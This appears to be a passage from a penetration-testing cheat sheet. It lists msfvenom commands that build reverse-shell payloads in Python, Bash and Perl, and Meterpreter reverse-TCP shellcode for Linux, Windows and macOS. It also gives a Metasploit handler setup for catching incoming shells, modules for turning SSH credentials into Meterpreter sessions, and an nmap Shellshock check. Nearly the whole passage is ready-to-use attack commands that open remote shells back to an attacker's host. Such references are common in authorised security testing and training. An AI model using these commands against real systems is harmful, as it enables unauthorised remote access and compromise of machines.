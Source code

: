       **Scripting Payloads**
      
      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
      
      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
      
      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
      
      **Shellcode**
      
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z
      
      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

-   Shellshock

    -   Testing for shell shock with NMap
    
    `root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip`

